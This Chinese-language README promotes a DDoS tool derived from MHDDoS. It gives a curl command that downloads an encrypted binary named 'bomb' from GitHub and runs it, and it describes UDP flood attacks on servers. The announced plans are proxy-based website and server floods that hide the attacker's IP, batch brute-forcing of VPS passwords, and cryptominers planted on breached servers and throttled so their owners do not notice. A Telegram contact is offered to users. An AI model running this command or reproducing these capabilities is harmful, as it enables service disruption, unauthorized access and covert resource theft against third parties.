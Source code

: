 ## 有时间将会完善,目前只有第一种攻击方式

测试脚本
```
curl -sSL https://raw.githubusercontent.com/seagullz4/Loser-DDos/main/bomb -o bomb && chmod +x bomb && ./bomb
```

暂时只能是x86的服务器运行

暂时只能使用UDP攻击服务器,后续内容正在添加+测试中


测试用户请联系我: [@seagullz44](https://t.me/seagullz44)

原项目地址是这个哈,有兴趣的可以去看看: [MHDDoS](https://github.com/MatrixTM/MHDDoS)

# 预计内容
 
1.原有的Layer7 (Website)攻击+Layer4 (Server/Home)基础上优化,以及在线的socks5和socks4和Proxies HTTP的在线获取,更好的通过多种ip打击网站,并隐藏好自己的ip
 
2.暴力破解vps密码,可以默认自定义操作,定时,批量
 
3.对所破解的vps进行植入挖矿程序,可以自定义挖矿的CPU占比,防止用户察觉
 
4.将继续收集其他ddos项目进行优化简介合并
 

本脚本采用的是简单加密,这种加密程度不是很高,但可以防止一些小白同志进行二改贩卖,请勿用于违法犯罪,请下载本脚本1小时后删除,使用本脚本自动同意使用者承担一切风险的原则,与作者无关